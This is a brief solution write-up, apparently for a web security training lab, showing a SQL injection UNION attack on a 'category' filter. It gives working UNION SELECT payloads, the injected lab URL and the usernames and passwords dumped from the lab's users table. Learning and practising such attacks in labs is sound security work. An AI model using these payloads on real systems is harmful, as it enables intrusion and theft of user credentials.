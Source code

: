 # Lab: SQL injection UNION attack, retrieving data from other tables
## Description
Use SQL Injection with UNION select to retrive data from table `users` and extract data from the column `password`.

## Solution
The following payloads

 ```
 '+UNION+SELECT+password,NULL+FROM+users--
 '+UNION+SELECT+username,NULL+FROM+users--
 '+UNION+SELECT+username,password+FROM+users--
 ```
 
Was injected into the `category`:
```
https://acfb1fb51e067f55c07eaa4c00570045.web-security-academy.net/filter?category=Accessories'+UNION+SELECT+password,NULL+FROM+users--
```

The username/password was then returned in the HTTP response. The following credentials was extracted:
```
administrator:84c2dnxgpa2g1jgj4gbx
carlos:xtbulbofr8en38e58vet
wiener:uuxbdfclvz07j61hvze7
```



